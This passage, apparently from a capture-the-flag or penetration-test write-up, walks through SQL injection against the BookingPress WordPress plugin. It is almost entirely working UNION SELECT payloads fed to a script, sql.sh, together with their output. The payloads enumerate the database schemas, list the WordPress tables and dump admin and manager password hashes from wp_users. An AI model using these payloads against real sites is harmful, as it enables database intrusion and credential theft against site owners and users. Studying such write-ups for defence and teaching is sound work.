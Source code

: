 Change the query to:

```bash
SQLI="UNION ALL SELECT 1,2,3,4,5,6,7,8,concat(schema_name) FROM information_schema.schemata-- -"

# And the result:
~m» bash sql.sh  | jq '.[] | .bookingpress_servicedate_created'
"information_schema"
"blog"
```

Listing WP tables:

```bash
SQLI="UNION ALL SELECT 1,2,3,4,5,6,7,8,group_concat(table_name) from information_schema.tables where table_schema = database()-- -"

~m» bash sql.sh  | jq '.[] | .bookingpress_servicedate_created' | sed 's/,/\n/g'
"wp_options
wp_term_taxonomy
wp_bookingpress_servicesmeta
wp_commentmeta
wp_users
wp_bookingpress_customers_meta
wp_bookingpress_settings
wp_bookingpress_appointment_bookings
wp_bookingpress_customize_settings
wp_bookingpress_debug_payment_log
wp_bookingpress_services
wp_termmeta
wp_links
wp_bookingpress_entries
wp_bookingpress_categories
wp_bookingpress_customers
wp_bookingpress_notifications
wp_usermeta
wp_terms
wp_bookingpress_default_daysoff
wp_comments
wp_bookingpress_default_workhours
wp_postmeta
wp_bookingpress_form_fields
wp_bookingpress_payment_logs
wp_posts
wp_term_relationships"
```

Listing passwords:

```bash
SQLI="UNION ALL SELECT 1,2,3,4,5,6,7,8,group_concat(user_login,user_pass) from blog.wp_users-- -"

~m» bash sql.sh  | jq '.[] | .bookingpress_servicedate_created'
"admin$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.,manager$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70"
```
